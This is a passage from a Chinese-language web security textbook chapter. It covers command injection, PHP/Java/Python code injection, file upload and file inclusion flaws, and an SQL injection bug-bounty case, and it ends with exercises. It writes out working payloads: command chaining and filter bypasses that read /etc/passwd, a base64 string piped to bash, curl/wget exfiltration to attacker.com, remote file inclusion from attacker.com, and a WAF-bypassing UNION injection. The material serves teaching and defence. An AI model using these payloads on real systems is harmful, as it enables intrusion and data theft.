正常：?ip=8.8.8.8
攻击：?ip=8.8.8.8; whoami
      ?ip=8.8.8.8 && whoami
      ?ip=8.8.8.8 | whoami
```

**拼接后的命令**：

```bash
ping -c 4 8.8.8.8; whoami
```

#### 命令拼接符

不同操作系统的命令拼接符：

| 拼接符 | 说明 | Windows | Linux |
|-------|------|---------|-------|
| `;` | 命令分隔符（顺序执行） | ✗ | ✓ |
| `&&` | 前一个命令成功才执行后一个 | ✓ | ✓ |
| `||` | 前一个命令失败才执行后一个 | ✓ | ✓ |
| `|` | 管道符（前一个命令的输出作为后一个的输入） | ✓ | ✓ |
| `&` | 后台执行（两个命令同时执行） | ✓ | ✓ |

#### 绕过过滤技术

**1. 空格绕过**

如果空格被过滤，可以使用以下替代：

```bash
# Linux
cat</etc/passwd
cat<>/etc/passwd
{cat,/etc/passwd}
cat${IFS}/etc/passwd

# Windows
type.\windows\win.ini
```

**2. 关键字绕过**

**使用变量拼接**：

```bash
# Linux
a=c;b=at;c=/etc/passwd;$a$b $c
```

**使用通配符**：

```bash
# Linux：/bin/cat 可以被表示为 /?in/?at
/?in/?at /etc/passwd
```

**使用编码**：

```bash
# Base64编码（Linux）
echo Y2F0IC9ldGMvcGFzc3dk | base64 -d | bash
```

#### 无回显利用

当命令执行后无法看到回显时，可以使用以下方式获取数据：

**使用DNSlog**：

```bash
# Linux
curl http://attacker.com/$(whoami)
wget http://attacker.com/$(id)
```

**使用重定向**：

```bash
# Linux
cat /etc/passwd > /var/www/html/result.txt
# 然后访问 http://target.com/result.txt
```

### 10.4.2 PHP/Java/Python 代码注入

代码注入是指攻击者能够注入并执行服务器端代码。

#### 1. PHP代码注入

**危险函数**：

- `eval()`：执行字符串作为PHP代码
- `assert()`：断言，执行字符串作为PHP代码
- `preg_replace()`：当使用 `/e` 修饰符时，会执行替换字符串
- `create_function()`：创建匿名函数
- `call_user_func()`：调用回调函数

**示例**：

```php
// 漏洞代码
$code = $_GET['code'];
eval($code);

// 攻击：?code=phpinfo();
```

#### 2. Java代码注入

Java代码注入通常发生在使用脚本引擎或表达式语言的场景。

**Script Engine注入**：

```java
// 漏洞代码
ScriptEngineManager manager = new ScriptEngineManager();
ScriptEngine engine = manager.getEngineByName("JavaScript");
String code = request.getParameter("code");
engine.eval(code);

// 攻击：code=java.lang.Runtime.getRuntime().exec("whoami")
```

**SpEL注入**：

```java
// 漏洞代码
ExpressionParser parser = new SpelExpressionParser();
Expression exp = parser.parseExpression(userInput);

// 攻击：userInput = T(java.lang.Runtime).getRuntime().exec("whoami")
```

#### 3. Python代码注入

Python代码注入通常发生在使用 `eval()`、`exec()`、`pickle` 等场景。

**eval()和exec()注入**：

```python
# 漏洞代码
user_input = request.args.get('input')
result = eval(user_input)

# 攻击：input=__import__('os').system('whoami')
```

**Jinja2模板注入（SSTI）**：

```python
# 漏洞代码（Flask）
@app.route('/')
def index():
    user_input = request.args.get('input')
    template = "<p>Hello, %s</p>" % user_input
    return render_template_string(template)

# 攻击：input={{7*7}}  => 输出 49
```

---

## 10.5 文件操作漏洞

文件操作漏洞是指攻击者能够上传、读取、修改或删除服务器上的文件。

### 10.5.1 文件上传漏洞

文件上传是最常见的高危漏洞之一，攻击者可以上传Webshell，从而控制服务器。

#### 漏洞原理

文件上传漏洞通常发生在：

1. 未对上传文件的类型、内容进行充分验证
2. 上传路径可被预测或控制
3. 上传的文件可以被直接访问和执行

#### 绕过技术

**1. MIME类型绕过**

某些应用仅检查HTTP请求中的 `Content-Type` 头。

**绕过方法**：

```http
# 正常图片上传
Content-Type: image/jpeg

# Webshell（改为图片后缀）
Content-Type: image/jpeg
```

**2. 文件扩展名绕过**

**黑名单绕过**：

如果应用使用黑名单（禁止 `.php`、`.jsp` 等），可以尝试：

- `.php3`、`.php4`、`.php5`、`.phtml`：PHP的替代后缀
- `.php...`（Windows）：利用Windows特性
- `.php .`（空格+点，Windows）：利用Windows特性

**白名单绕过**：

如果应用使用白名单（仅允许 `.jpg`、`.png` 等），相对更安全，但仍可能绕过：

- 0day漏洞（如Nginx、Apache的解析漏洞）
- 结合文件包含漏洞
- 利用CMS的上传特性

**3. 解析漏洞**

**Nginx解析漏洞**：

```
http://target.com/upload/image.jpg/1.php
```

如果 `image.jpg` 内容是PHP代码，Nginx会将其解析为PHP。

**Apache解析漏洞**：

```
http://target.com/upload/shell.php.jpg
```

如果Apache配置不当，可能将 `.php.jpg` 解析为PHP。

#### 防护建议

1. **使用白名单**：仅允许安全的文件类型
2. **随机化文件名**：使用UUID或随机字符串重命名文件
3. **限制上传目录执行权限**：在Nginx/Apache中配置上传目录不允许执行脚本
4. **检查文件内容**：使用 `getimagesize()` 等函数验证图片
5. **隔离上传目录**：将上传目录放在Web根目录外

### 10.5.2 文件包含漏洞

文件包含漏洞是指应用程序在包含文件时，未对用户输入进行充分过滤，导致可以包含任意文件。

#### 类型

**本地文件包含（LFI）**：

应用程序包含服务器上的文件，攻击者可以控制包含的文件路径。

```php
// 漏洞代码
$file = $_GET['file'];
include($file . '.php');
```

**攻击**：

```
?file=../../../etc/passwd%00  （需要PHP < 5.3.4且magic_quotes_gpc关闭）
?file=php://filter/convert.base64-encode/resource=config
```

**远程文件包含（RFI）**：

应用程序可以包含远程服务器上的文件，攻击者可以控制远程文件的URL。

```php
// 漏洞代码（需要allow_url_include=On）
$file = $_GET['file'];
include($file);
```

**攻击**：

```
?file=http://attacker.com/shell.txt
```

#### PHP伪协议

PHP提供了多种伪协议（Wrapper），可以用于文件包含漏洞的利用。

**1. php://filter**

用于读取文件源码（Base64编码）。

```
?file=php://filter/convert.base64-encode/resource=config.php
```

解码Base64即可获得源码。

**2. php://input**

可以执行POST数据中的PHP代码（需要 `allow_url_include=On`）。

```
请求：
?file=php://input

POST数据：
<?php phpinfo(); ?>
```

### 10.5.3 任意文件读取/删除

#### 任意文件读取

任意文件读取漏洞允许攻击者读取服务器上的任意文件，包括配置文件、源码、敏感数据等。

**示例（PHP）**：

```php
// 漏洞代码
$file = $_GET['file'];
readfile($file);
```

**攻击**：

```
?file=../../../etc/passwd
?file=php://filter/convert.base64-encode/resource=config.php
```

**敏感文件路径**：

- Linux：`/etc/passwd`、`/etc/shadow`、`/proc/self/environ`
- Windows：`C:\windows\win.ini`
- 应用配置文件：`config.php`、`database.yml` 等

---

## 10.6 实战案例

### 10.6.1 某SRC的SQL注入挖掘实录

**背景**：

在某SRC（Security Response Center）测试中，发现一个电商平台的商品搜索功能存在SQL注入。

**信息收集**：

1. 访问目标站点：`https://shop.example.com`
2. 发现搜索功能：`https://shop.example.com/search?keyword=test`
3. 使用Burp Suite抓包，发现请求参数

**漏洞探测**：

**步骤1：测试keyword参数**

```
正常：?keyword=test
测试：?keyword=test'
响应：MySQL错误（暴露数据库类型）
```

**步骤2：确认注入类型**

```
测试：?keyword=test' AND '1'='1
响应：正常显示结果

测试：?keyword=test' AND '1'='2
响应：无结果显示

结论：存在布尔型注入
```

**步骤3：绕过WAF**

尝试使用Union注入，但被WAF拦截。使用Tamper技术绕过：

```
?keyword=test%27%20/*!50000UNION*/%20/*!50000SELECT*/%201,2,3%20--%20
响应：成功！（WAF被绕过）
```

**步骤4：提取数据**

使用Union注入提取数据，获取数据库名、表名、列名，最终获取用户数据和管理员账号。

### 10.6.2 完整漏洞报告编写示例

**漏洞报告模板**：

```markdown
# 漏洞报告

## 1. 基本信息

- **漏洞编号**：SRC-2024-001
- **漏洞类型**：SQL注入
- **漏洞等级**：高危
- **发现时间**：2024-01-15

## 2. 漏洞描述

在 `https://shop.example.com/search` 接口的 `keyword` 参数中存在SQL注入漏洞。
攻击者可以通过构造恶意的SQL语句，获取数据库中的敏感数据。

## 3. 复现步骤

1. 访问 `https://shop.example.com/search?keyword=test`
2. 修改 `keyword` 参数为 `test' /*!50000UNION*/ /*!50000SELECT*/ 1,database(),3 -- `
3. 观察页面响应，发现数据库名被显示

## 4. 影响评估

- **CVSS 3.1评分**：8.6（高危）
- **业务影响**：用户数据泄露、管理员账号被获取

## 5. 修复建议

1. 使用预处理语句（Prepared Statement）
2. 使用WAF规则
3. 最小权限原则
4. 错误信息处理
```

---

## 10.7 总结

本章深入讲解了Web漏洞挖掘的核心技术，包括：

1. **Web漏洞概述**：了解OWASP Top 10 2021的变化趋势，掌握Web漏洞的分类和挖掘流程
2. **SQL注入深度挖掘**：从原理到实战，涵盖Union注入、盲注、WAF绕过、SQLMap高级用法等
3. **XSS与CSRF**：三种XSS类型的区别和利用，CSP绕过技术，CSRF的POC编写和防护
4. **命令注入与代码注入**：OS命令注入的绕过技巧，PHP/Java/Python代码注入的利用方式
5. **文件操作漏洞**：文件上传、文件包含、任意文件读取/删除的挖掘和防护
6. **实战案例**：通过真实案例理解漏洞挖掘的完整流程

**关键要点**：

- 漏洞挖掘需要系统的方法论，不能只依赖工具
- 理解漏洞原理比掌握工具更重要
- WAF绕过是实战中的必备技能
- 编写专业的漏洞报告是漏洞挖掘的重要组成部分

---

## 10.8 思考题

1. **SQL注入进阶**：
   在 Blind SQL 注入中，如果网络延迟不稳定，如何提高盲注的准确率？请设计一种算法或脚本。

2. **WAF绕过实战**：
   某WAF过滤了 `SELECT`、`UNION`、`WHERE` 等关键字，但允许 `/*!50000SELECT*/` 这种注释语法。
   请构造一个完整的Union注入Payload，并解释其原理。

3. **XSS过滤绕过**：
   某站点对用户输入进行了HTML实体编码（如 `<` 转为 `&lt;`），但在某些属性值中未过滤。
   请构造一个不使用 `<`、`>` 的XSS Payload，并解释其原理。

4. **CSRF与SameSite**：
   某站点设置了 `SameSite=Lax`，但存在一个JSONP端点。
   请利用这个JSONP端点构造一个CSRF攻击，并解释为什么可以绕过SameSite。

5. **命令注入无回显利用**：
   在某命令注入漏洞中，服务器执行了命令但没有任何回显。
   请设计三种不同的方式来获取命令执行结果。

6. **文件上传解析漏洞**：
   某Nginx服务器存在解析漏洞，访问 `http://target.com/upload/image.jpg/1.php` 时，`image.jpg` 会被解析为PHP。
   请解释这个漏洞的原理，并给出防御方案。

7. **PHP伪协议利用**：
   在文件包含漏洞中，使用 `php://filter` 可以读取源码。
   请解释 `php://filter/convert.base64-encode/resource=config.php` 的工作原理，并说明为什么需要Base64编码。

8. **综合题**：
   某站点存在以下漏洞：
   - 文件上传功能（仅允许 `.jpg` 文件）
   - 文件包含漏洞（`?file=page.php`）
   
   请设计一个完整的攻击链，从上传Webshell到获取服务器权限，并说明每一步的关键点。

---

**参考资料**：

1. OWASP Top 10 2021: https://owasp.org/Top10/
2. SQLMap官方文档: https://sqlmap.org/
3. PortSwigger Web Security Academy: https://portswigger.net/web-security
4. OWASP Testing Guide: https://owasp.org/www-project-web-security-testing-guide/

